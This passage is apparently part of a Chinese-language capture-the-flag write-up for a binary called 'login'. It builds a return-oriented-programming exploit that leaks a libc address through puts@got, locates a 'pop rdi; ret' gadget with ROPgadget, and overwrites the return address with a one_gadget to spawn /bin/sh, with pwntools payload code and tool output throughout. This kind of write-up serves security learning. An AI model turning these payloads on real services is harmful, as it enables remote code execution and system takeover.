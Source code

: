 - 而name(s1)基址为`0x602400`, `0x6023e0+0x20=0x602400`，故此时name基址即为函数尾声恢复rbp时用的值，name+8即为返回地址(RA)
- 故可以如此构造payload：

```python
payload = b"admin\0".ljust(0x8, b'\0') + p64(pop rdi; ret) + p64(puts@got) + p64(call puts;)
```

达到的目的：

1. `pop rdi` 控制rdi的值。pop rdi用的是栈上的值，即紧接着的填的puts函数的got表地址
2. `ret = pop rip` 令rip的值为一个`call _puts`的地址，于是程序会`puts(puts@got)`即输出`puts`函数的真实地址(puts@got上的内容)

泄露了libc某个函数的真实地址=泄露libc基址，而后就可以使用`one_gadget` getshell，所以还需控制rip一次。这里用的是`.text:4018B5   call _puts` ，这是执行`call main_logic`前输出一些字符串`call _puts`。这样程序就会随即再执行一次`main_logic`

- `pop rdi; ret` 的地址使用 ROPgadget 找到

```bash
ROPgadget --binary login  --only 'pop|ret' | grep 'rdi'
0x0000000000401ab3 : pop rdi ; ret
```

# Step-3: one_gadget

上面得到puts真实地址后，即可泄露libc基址，由于buf(password)基址比name小一些，故这次执行`main_logic`时，返回地址仍然在name缓冲区上，具体在name的哪个位置，可以调试得到。

得到`one_gadget`地址：

```bash
$ one_gadget libc.so.6 
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf03a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1247 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

- 调试时需注意read pw时buf的基址，然后就可以计算出RA的地址，然后在name对应的偏移上写上期望的RA

```python
payload = b"admin\0".ljust(0x18, b'\0') + p64(libc.address + 0xf1247)  # gdb调试 让地址放在RA处
# 具体用哪一个one_gadget不清楚 远程蒙的 0xf1247蒙对了 可用
sh.sendafter(">", payload)
payload = b"admin\0".ljust(0x8, b'\0')
sh.sendafter(">", payload)
```
